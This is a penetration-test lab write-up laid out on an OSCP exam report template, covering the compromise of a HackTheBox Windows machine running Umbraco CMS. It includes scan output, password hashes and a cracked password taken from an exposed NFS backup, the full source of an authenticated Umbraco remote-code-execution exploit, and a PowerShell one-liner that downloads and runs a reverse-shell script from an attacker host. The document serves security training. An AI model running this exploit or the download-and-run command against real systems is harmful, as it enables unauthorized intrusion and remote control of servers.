

# Offensive-Security OSCP Exam Report

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.180

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

```
Nmap 7.80 scan initiated Thu Mar 26 18:57:04 2020 as: nmap -v -sC -sV -T4 -A -oA nmap 10.10.10.180
Increasing send delay for 10.10.10.180 from 0 to 5 due to 47 out of 117 dropped probes since last increase.
Increasing send delay for 10.10.10.180 from 5 to 10 due to 56 out of 139 dropped probes since last increase.
Nmap scan report for 10.10.10.180
Host is up (0.12s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m19s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-26T18:01:30
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 26 19:00:14 2020 -- 1 IP address (1 host up) scanned in 189.60 seconds
```

```
msf5 > services
Services
========

host          port   proto  name          state  info
----          ----   -----  ----          -----  ----
10.10.10.180  21     tcp    ftp           open   Microsoft ftpd
10.10.10.180  80     tcp    http          open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
10.10.10.180  111    tcp    rpcbind       open   2-4 RPC #100000
10.10.10.180  135    tcp    msrpc         open   Microsoft Windows RPC
10.10.10.180  139    tcp    netbios-ssn   open   Microsoft Windows netbios-ssn
10.10.10.180  445    tcp    microsoft-ds  open   
10.10.10.180  2049   tcp    mountd        open   1-3 RPC #100005
10.10.10.180  4321   tcp    tcpwrapped    open   
10.10.10.180  5985   tcp    http          open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
10.10.10.180  47001  tcp    http          open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
10.10.10.180  49664  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.180  49665  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.180  49666  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.180  49667  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.180  49678  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.180  49679  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.180  49680  tcp    msrpc         open   Microsoft Windows RPC
```

## Sample Report - Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, John was able to successfully gain access to the system.

Dirb showed a directory 'umbraco' on http://10.10.10.180.

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb/dirb.log
START_TIME: Sat Sep  5 00:33:56 2020
URL_BASE: http://10.10.10.180/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.180/ ----
+ http://10.10.10.180/about-us (CODE:200|SIZE:5441)
+ http://10.10.10.180/blog (CODE:200|SIZE:5001)
+ http://10.10.10.180/Blog (CODE:200|SIZE:5001)
+ http://10.10.10.180/contact (CODE:200|SIZE:7880)
+ http://10.10.10.180/Contact (CODE:200|SIZE:7880)
+ http://10.10.10.180/home (CODE:200|SIZE:6703)
+ http://10.10.10.180/Home (CODE:200|SIZE:6703)
+ http://10.10.10.180/install (CODE:302|SIZE:126)
+ http://10.10.10.180/intranet (CODE:200|SIZE:3323)
+ http://10.10.10.180/master (CODE:500|SIZE:3420)
+ http://10.10.10.180/people (CODE:200|SIZE:6739)
+ http://10.10.10.180/People (CODE:200|SIZE:6739)
+ http://10.10.10.180/person (CODE:200|SIZE:2741)
+ http://10.10.10.180/product (CODE:500|SIZE:3420)
+ http://10.10.10.180/products (CODE:200|SIZE:5328)
+ http://10.10.10.180/Products (CODE:200|SIZE:5328)
+ http://10.10.10.180/umbraco (CODE:200|SIZE:4040)

-----------------
END_TIME: Sat Sep  5 00:38:52 2020
DOWNLOADED: 4612 - FOUND: 17
```

Showmount reported a NFS share 'site_backups' readable to everyone.

```
user@kali:~/hackthebox/remote$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

On the NFS share a Umbraco backup file 'Umbraco.sdf' is present which contains hashes of passwords:

```
App_Data$ strings Umbraco.sdf  

Administratoradmindefaulten-US                                                                                                                                                                                                                                                          
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d                                                                          
Administratoradmin**b8be16afba8c314ad33d812f22a04991b90e2aaa**{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d                 
adminadmin@htb.local**b8be16afba8c314ad33d812f22a04991b90e2aaa**{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50 
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f 
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e                                                                                        
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

The SHA-1 hash: b8be16afba8c314ad33d812f22a04991b90e2aaa was succesfully reversed into the string: **baconandcheese**

**Vulnerability Fix:**

* Close NSF access
* Remove read access to everyone
* Remove Umbraco backup file

**Severity:** Critical

Browsing to the web directory showed a Umbraco CMS webportal login:



http://10.10.10.180/umbraco/#/login

**RCE Umbraco:

```
searchsploit umbraco
--------------
 Exploit Title                                                             
--------------
Umbraco CMS - Remote Command Execution (Metasploit)               | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution        | aspx/webapps/46153.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting        | php/webapps/44988.txt
--------------
Shellcodes: No Results
Papers: No Results

```

**Proof of Concept Code Here:**

```
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse

from bs4 import BeautifulSoup

parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')                                                                                                                          
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,                                                                            
    dest='command', help='command')                                                                                                                       
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,                                                                        
    dest='arguments', help='arguments', default='')                                                                                                       
args = parser.parse_args()                                                                                                                                
                                                                                                                                                          
# Payload                                                                                                                                                 
payload = """\                                                                                                                                            
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\                                               
""" % (args.arguments, args.command)                                                                                                                      
                                                                                                                                                          
login = args.user                                                                                                                                         
password = args.password                                                                                                                                  
host = args.url                                                                                                                                           
                                                                                                                                                          
http_proxy  = "http://127.0.0.1:8080"                                                                                                                     
https_proxy  = "http://127.0.0.1:8080"                                                                                                                    
ftp_proxy  = "http://127.0.0.1:8080"                                                                                                                      
                                                                                                                                                          
proxyDict = {                                                                                                                                             
                      "http"  : http_proxy,                                                                                                               
                      "https" : https_proxy,                                                                                                              
                      "ftp"   : ftp_proxy                                                                                                                 
                                                                                                                                                          
}                                                                                                                                                         
                                                                                                                                                          
# Process Login                                                                                                                                           
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"                                                                              
loginfo = { "username": login, "password": password}                                                                                                      
s = requests.session()                                                                                                                                    
r2 = s.post(url_login,json=loginfo, proxies=proxyDict )                                                                                                   
                                                                                                                                                          
# Go to vulnerable web page                                                                                                                               
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"                                                                                            
r3 = s.get(url_xslt, proxies=proxyDict)                                                                                                                   
                                                                                                                                                          
soup = BeautifulSoup(r3.text, 'html.parser')                                                                                                              
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']                                                                                                          
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers, proxies=proxyDict)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```
# Execution exploit

```
python3 -m http.server 8080
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c 'powershell.exe' -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.27:8000/reverse.ps1')"
```


\newpage

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
